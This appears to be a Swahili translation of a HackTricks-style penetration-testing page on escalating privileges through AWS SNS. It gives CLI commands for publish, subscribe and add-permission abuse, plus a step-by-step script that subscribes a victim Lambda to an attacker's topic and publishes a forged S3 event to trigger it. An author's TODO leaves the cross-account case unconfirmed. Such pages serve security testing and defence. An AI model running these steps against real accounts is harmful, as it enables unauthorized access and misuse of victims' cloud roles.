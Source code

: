 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Kwa maelezo zaidi angalia:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

Mshambuliaji anaweza kutuma ujumbe wa hatari au usiotakikana kwenye SNS topic, jambo ambalo linaweza kusababisha uharibifu wa data, kuamsha vitendo visivyotarajiwa, au kumaliza rasilimali.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Potential Impact**: Utumiaji wa udhaifu, uharibifu wa data, vitendo visivyokusudiwa, au kusababisha kumalizika kwa rasilimali.

### `sns:Subscribe`

Mshambuliaji anaweza kujisajili kwa SNS topic, akipata kwa hivyo ufikiaji usioidhinishwa wa ujumbe au kuingilia utendaji wa kawaida wa programu zinazotegemea topic hiyo.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Athari Inayowezekana**: Ufikiaji usioidhinishwa wa ujumbe (taarifa nyeti), kuathiri utoaji wa huduma kwa programu zinazotegemea SNS topic iliyohusika.

### `sns:AddPermission`

Mshambuliaji anaweza kumpa watumiaji au huduma zisizoidhinishwa ufikiaji wa SNS topic, na hivyo kupata ruhusa zaidi.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Athari Inayoweza Kutokea**: Ufikiaji usioidhinishwa kwa mada, kufichuka kwa ujumbe, au uharibu wa mada na watumiaji au huduma zisizoidhinishwa, kuingiliwa kwa utendakazi wa kawaida wa programu zinazotegemea mada.

### Kuitisha Lambda kwa kutumia vibaya ruhusa za wildcard za SNS (hakuna `SourceArn`)

Ikiwa sera ya rasilimali ya Lambda function inaruhusu `sns.amazonaws.com` kuitisha bila kuzuia mada ya chanzo (`SourceArn`), mada yoyote ya SNS (hata kwa akaunti nyingine) inaweza kujisajili na kusababisha function. Mdukuzi mwenye ruhusa za msingi za SNS anaweza kulazimisha Lambda iendeshwe chini ya role yake ya IAM kwa pembejeo inayodhibitiwa na mdukuzi.

> [!TIP]
> TODO: Je, hili linaweza kufanywa kweli kwa akaunti nyingine?

Masharti ya awali
- Sera ya Lambda ya mwathirika ina taarifa kama ilivyo chini, bila sharti la `SourceArn`:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Hatua za matumizi mabaya (akaunti ile ile au kati ya akaunti)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Athari Inayoweza Kutokea**: Lambda ya mwathirika inaendesha kwa IAM role yake, ikichakata input inayodhibitiwa na attacker. Hii inaweza kutumika vibaya kumfanya function ifanye vitendo nyeti (mf., kuandika kwenye S3, kupata secrets, kubadilisha resources) kulingana na permissions zake.


{{#include ../../../../banners/hacktricks-training.md}}
